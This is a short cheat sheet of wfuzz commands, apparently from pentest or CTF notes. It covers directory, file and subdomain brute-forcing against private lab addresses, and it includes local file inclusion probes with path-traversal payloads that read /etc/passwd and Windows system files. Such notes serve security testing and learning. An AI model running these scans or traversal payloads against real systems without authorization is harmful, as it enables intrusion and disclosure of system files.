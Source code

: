 # wfuzz Enumeration

## Skip SSL Certificate Verification

```bash
wfuzz -c --ssl-no-check -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "https://192.168.1.1/FUZZ/"
```

## Directory Scan

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "http://192.168.1.1/FUZZ/"
```

## File Scan

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "http://192.168.1.1/FUZZ"
```

## Subdomain Enumeration

```bash
wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.ctf.com" --sc 200 192.168.1.1
```

## Find LFI Parameter

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404 "http://192.168.1.1/hidden/secret.php?FUZZ=../../../../../../etc/passwd"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 "http://192.168.1.1/secret/evil.php?FUZZ=../../../../../../etc/passwd"
```

## Find the File through LFI (Windows)

```bash
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt -u "http://192.168.1.1/index.php?view=FUZZ"
```

## Find the File through LFI (Linux)

```bash
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt "http://192.168.1.1/view?file=FUZZ"
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt "http://192.168.1.1/view?file=FUZZ"
